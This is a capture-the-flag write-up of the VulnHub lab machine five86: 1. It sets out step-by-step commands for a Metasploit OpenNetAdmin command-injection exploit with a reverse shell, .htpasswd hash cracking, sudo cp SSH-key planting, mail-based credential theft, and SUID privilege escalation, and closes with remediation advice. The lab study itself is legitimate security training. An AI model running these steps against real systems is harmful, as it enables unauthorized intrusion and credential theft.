





# five86: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.0.126 (host-only) |
| **Difficulty** | Intermediate |
| **OS** | Linux |
| **Root Access** | via SUID game binary |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/five86-1,533/) |

## Attack Summary

nmap → robots.txt → OpenNetAdmin 18.1.1 RCE (EDB-47772) → www-data → .htpasswd hash → crunch wordlist → john → douglas → sudo cp SSH key as jen → jen mail → moss creds → SUID upyourgame binary → root

## Methodology

1. Network discovery and port scanning
2. Web enumeration — robots.txt reveals `/ona`
3. OpenNetAdmin RCE via Metasploit (EDB-47772)
4. Credential extraction from `.htpasswd`
5. Password cracking with crunch + john
6. Lateral movement: douglas → jen → moss
7. SUID binary exploitation for root

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.0.0/24
nmap -sV -sC -p- 192.168.0.126
```

Port 80 open (Apache). Check `robots.txt`:

```
Disallow: /ona
```

`/ona` runs OpenNetAdmin 18.1.1.



---

## Step 2: OpenNetAdmin RCE (EDB-47772)

OpenNetAdmin 18.1.1 is vulnerable to unauthenticated command injection.

```bash
msfconsole -q
use exploit/unix/webapp/opennetadmin_ping_cmd_injection
set RHOSTS 192.168.0.126
set LHOST 192.168.0.132
exploit
```

Shell obtained as `www-data`.



---

## Step 3: Credential Discovery

Inside the web root:

```bash
cat /var/www/html/reports/.htaccess
# → points to /var/www/.htpasswd
cat /var/www/.htpasswd
# douglas:$apr1$... (hash + hint: 10 chars from letters aefhrt)
```



---

## Step 4: Password Cracking

Generate candidates from the hint:

```bash
crunch 10 10 aefhrt > dict.txt
john --wordlist=dict.txt hash
# Cracked: fatherrrrr
```

SSH as douglas:

```bash
ssh douglas@192.168.0.126
# Password: fatherrrrr
```

---

## Step 5: Lateral Movement — douglas → jen

Douglas can run `/bin/cp` as jen via sudo:

```bash
sudo -l
# (jen) NOPASSWD: /bin/cp

ssh-keygen -f /tmp/jen_key
cat /tmp/jen_key.pub > /tmp/authorized_keys
chmod 777 /tmp/authorized_keys
sudo -u jen /bin/cp /tmp/authorized_keys /home/jen/.ssh/authorized_keys
ssh -i /tmp/jen_key jen@127.0.0.1
```



---

## Step 6: Lateral Movement — jen → moss

Read jen's mail:

```bash
cat /var/mail/jen
# Moss's password is mentioned in the email
su moss
# Password: <from email>
```

---

## Step 7: Root via SUID Binary

```bash
find / -perm -u=s -type f 2>/dev/null
# /home/moss/.game/upyourgame

cd /home/moss/.game
./upyourgame
# Answer yes/no questions → drops root shell
id
# uid=0(root)
cat /root/flag.txt
```



---

## Lessons Learned

1. **Credential files in web root** — `.htpasswd` accessible via `www-data` exposes password hashes
2. **Sudo cp abuse** — copying SSH keys into another user's `.ssh/` bypasses authentication entirely
3. **Mail as pivot** — user mail often contains credentials in plaintext
4. **SUID game binaries** — unusual SUID binaries warrant immediate investigation; interactive programs can drop elevated shells

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| OpenNetAdmin 18.1.1 RCE | Update to patched version or remove; never expose admin interfaces to network |
| .htpasswd in readable path | Store credential files outside web root; use proper ACLs |
| sudo cp as another user | Audit sudoers; `cp` should never be granted for another user's `.ssh/` |
| SUID game binary | Remove SUID bit; never give SUID to interactive programs |
